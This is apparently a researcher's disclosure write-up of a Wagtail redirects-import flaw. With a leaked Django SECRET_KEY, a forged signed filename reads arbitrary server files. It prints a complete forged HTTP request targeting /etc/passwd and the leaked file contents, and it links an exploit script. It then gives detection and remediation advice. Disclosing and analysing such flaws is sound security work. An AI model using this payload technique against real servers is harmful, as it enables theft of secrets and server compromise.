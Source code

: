 # When a Leaked Django SECRET_KEY Becomes Worse: A Case Study in Wagtail

## Introduction

In the Django ecosystem, the `SECRET_KEY` is already a highly sensitive
value. Its leakage typically allows attackers to forge tokens, reset
passwords, or hijack sessions in certain configurations. However, while
investigating Wagtail's `redirects` module, I discovered a case where a
leaked `SECRET_KEY` could escalate beyond user/session abuse and enable
**server-side file reads**. Python script for exploitation of this vulnerability is available on my [github](https://github.com/Habuon/wagtail-lfi).

## Vulnerability Overview

**File:** `wagtail/contrib/redirects/tmp_storages.py`

**Line:** 72

``` python
return os.path.join(tempfile.gettempdir(), self.name)
```

The `self.name` value originates from a signed parameter in the request.
While the signing mechanism ensures integrity, it does not sanitize the
contents. If an attacker can forge valid signatures (possible if they
possess the Django `SECRET_KEY`), they can supply filenames such as `/etc/passwd`.
The code concatenates this unchecked value into the filesystem path,
effectively allowing traversal outside the intended temporary directory.



## Exploitation Conditions

To exploit this issue, an attacker must:

1.  **Know the Django `SECRET_KEY`** - already a serious breach.
2.  **Hold a valid Wagtail account** with permission to add redirects.
3.  **Craft a malicious signed filename** pointing to sensitive files.

If these conditions are met, the attacker can exfiltrate arbitrary files
from the server. The example request containing valid session for high privileged user is as follows:

**HTTP request:**
```HTTP
POST /admin/redirects/import/process/ HTTP/1.1
Host: localhost:8000
Cookie: csrftoken=JnnVucJbHd8qEaLPg1Sgr4jakrqxBJeO; sessionid=1y21vfn0g6thvfp06c2sooiu0symurie
Content-Length: 492
Content-Type: multipart/form-data; boundary=58070cece7e28a1b1230238d327e961c

--58070cece7e28a1b1230238d327e961c
Content-Disposition: form-data; name="csrfmiddlewaretoken"

f1Eii97cre31xBWPvNBkysKEXJL0iEAKOeR3CbGdYh1h1BxuBEjqPmTE701nJdEo
--58070cece7e28a1b1230238d327e961c
Content-Disposition: form-data; name="import_file_name"

/etc/passwd:EOyyi1lH0t4QL209IuRxanXgAstgxxxCA3NCAr4JPn8
--58070cece7e28a1b1230238d327e961c
Content-Disposition: form-data; name="input_format"

0:DmT0RMY6RdLc70Vt7wiYA32_Cl4z5UK1pBBI_ybYFGE
--58070cece7e28a1b1230238d327e961c--
```
The response to this request contains contents of the `/etc/passwd` file that was requested.

**HTTP Response:**
```HTTP
HTTP/1.1 200 OK
Server: WSGIServer/0.2 CPython/3.13.3
Content-Type: text/html; charset=utf-8
...
Content-Length: 38988


<html lang="en-us" dir="ltr" class="w-theme-system w-density-default w-contrast-system">    
    ...
    <form action="/admin/redirects/import/process/" method="POST" class="nice-padding" novalidate enctype="multipart/form-data">
    ...
        <h2>Preview</h2>
        <table class="listing listing-with-x-scroll">
            <thead>
                <tr><td>root:x:0:0:root:/root:/usr/bin/zsh</td></tr>
            </thead>
            <tbody>
                    <tr><td>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin</td></tr>
                    ...
                    <tr><td>redis:x:129:131::/var/lib/redis:/usr/sbin/nologin</td></tr>
                    <tr><td>kali:x:1000:1000::/home/kali:/usr/bin/zsh</td></tr>
            </tbody>
        </table>
    </form>
    ...
</html>
```


## Security Impact

While compromising `SECRET_KEY` is catastrophic on its own, typical
attacks remain at the **application/user level** (session forgery, token
signing). This vulnerability increases the impact by extending it to the
**server level**, enabling access to:

-   Environment files (`.env`)
-   Source code
-   Private keys (SSH, API credentials)
-   Configuration files

This effectively turns a cryptographic key leak into a **local file
inclusion (LFI)** issue.

## Example scenario - exposed `.git` plus leaked `SECRET_KEY`

A realistic and common way a `SECRET_KEY` becomes exposed is through accidental commits that include configuration files, `.env`, `.git` directory publicly available on server or an exposed backup. Imagine a developer accidentally pushes an unignored `settings.py` containing `SECRET_KEY`. An attacker who clones the repository or retrieves the exposed `.git` data can easily extract the `SECRET_KEY` and other sensitive config values.

In this situation the vulnerability we discussed becomes materially worse. With the leaked `SECRET_KEY` an attacker who also controls (or compromises) a Wagtail account with sufficient permissions can forge a signed filename and use the import endpoint to read arbitrary files from the server. That file-read capability may allow the attacker to harvest additional secrets — for example, .env files, database credentials, SSH keys, or API tokens — which can in turn enable full server compromise. In short: an initial repository leak that exposes `SECRET_KEY` can cascade into a full breach when combined with the unchecked filename usage.

### Detection hints

 - Scan commit history for accidentally committed settings.py, .env, or any file containing `SECRET_KEY`.

 - On the server, look for unexpected access patterns to admin endpoints (import endpoints, redirect imports) and unusual file reads by the web process.

 - Check logs for requests to the import endpoint that include unusual filename strings containing ../, absolute paths, or long path segments.

### Immediate remediation if you find a leak

 1. Rotate the `SECRET_KEY` immediately and plan for the side effects (invalidate signed cookies/tokens).

 2. Rotate any other secrets found in the repo or on the server (DB passwords, API keys, SSH keys).

 3. Remove the exposed `.git` or any sensitive files from public access and rewrite history where feasible (e.g., git filter-repo or bfg) — note that simply deleting a file from a repo does not remove it from history.

 4. Force password resets for admin users if you suspect session or token forgery.

 5. Audit and monitor for suspicious admin activity and new unknown keys appearing in logs or configs.




## CVSS Assessment

Using CVSS v3.1, I scored the issue as follows:

`AV:N/AC:H/PR:H/UI:N/S:C/C:H/I:N/A:N`

**Base Score:** 5.8 (Medium)

While the attack requires high privileges and prior compromise of the
`SECRET_KEY`, the confidentiality impact is high due to server file
exposure.


## Broader Lesson

This case is not about Wagtail being insecure "out of the box". It's
about how **trust in cryptographic signatures must not replace basic
input validation**. Even when parameters are signed, their contents
still need sanitization. Defense in depth matters.


## Timeline

-   **2025-09**: Issue identified and reported to Wagtail Security.
-   **2025-09**: Security team assessed it as not a vulnerability (since
    `SECRET_KEY` leakage is already catastrophic), but agreed the code
    should be hardened.


## Conclusion

While this issue requires multiple preconditions and may not qualify as
a formal vulnerability, it highlights a subtle but important security
lesson. Developers should validate and constrain filenames regardless of
signing, and treat the `SECRET_KEY` as a critical part of their
application security posture.

